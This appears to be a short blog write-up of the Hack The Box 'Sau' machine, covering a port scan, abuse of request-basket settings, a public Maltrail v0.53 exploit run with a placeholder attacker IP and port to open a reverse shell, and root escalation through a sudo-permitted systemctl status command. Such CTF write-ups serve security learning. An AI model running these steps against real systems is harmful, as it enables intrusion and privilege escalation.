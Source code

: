 ```yaml
---
layout: post
title:  "Sau"
date:   2025-03-26 18:30:00 -0400
categories: HTB-machine linux easy
tags: HTB CTF writeup nmap  
image:
    path: assets/img/htb/sau/banner.png
---
```


# Writeup
Let scan it first, we can see there are some open ports here.
![](assets/img/htb/sau/scan.png)

Access to the website, go to my basket link. Modify `settings`
![](assets/img/htb/sau/web.png)

Do some research about `Maltrail (v0.53)`, we have payload file.
![](assets/img/htb/sau/search.png)

Using `Netcat` and `python3 exploit.py 1.2.3.4 1337 http://example.com`, we can now get a reverse shell.
![](assets/img/htb/sau/flag.png)

`sudo -l` to check the list of commands that the current user can execute with elevated privileges using sudo.
![](assets/img/htb/sau/sudo.png)

`(ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service` We can do this command to escalate privilege by `sudo /usr/bin/systemctl status trail.service`

![](assets/img/htb/sau/root.png)
